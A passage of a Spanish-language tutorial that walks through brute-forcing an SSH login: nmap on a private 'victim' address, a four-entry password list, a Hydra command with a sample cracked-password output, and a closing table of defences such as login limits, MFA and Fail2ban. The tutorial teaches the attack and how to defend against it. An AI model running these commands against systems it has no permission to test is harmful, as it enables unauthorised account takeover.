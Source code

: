 #### 🛠️ Paso 1: Verificar que el servicio SSH está activo en la víctima

```bash
nmap -p 22 192.168.1.105
```

> Si el puerto 22 está abierto, podemos atacar.

---

#### 🛠️ Paso 2: Crear lista de contraseñas

```bash
echo -e "123456\npassword\nadmin\nadmin123" > passwords.txt
```

---

#### 🛠️ Paso 3: Ejecutar Hydra

```bash
hydra -l usuario -P passwords.txt ssh://192.168.1.105
```

**Explicación:**

- `-l usuario`: Usuario objetivo
- `-P passwords.txt`: Archivo con contraseñas
- `ssh://IP`: Servicio a atacar

---

#### ✅ Resultado posible:

```bash
[22][ssh] host: 192.168.1.105 login: usuario password: admin123
```

¡Hydra ha encontrado la contraseña correcta!

---

### 🧯 ¿Cómo defenderse?

| Medida de defensa                 | Descripción                                  |
| --------------------------------- | -------------------------------------------- |
| Limitar intentos de login         | Ej: bloquear cuenta tras 3 intentos fallidos |
| Usar contraseñas seguras          | Largas, complejas, no repetidas              |
| Autenticación multifactor         | Segundo paso (ej. SMS, app)                  |
| Captchas                          | Impiden bots en formularios web              |
| Firewall o Fail2ban               | Bloquea IPs con muchos intentos fallidos     |
| Desactivar servicios innecesarios | Quitar FTP, SSH si no se usan                |

---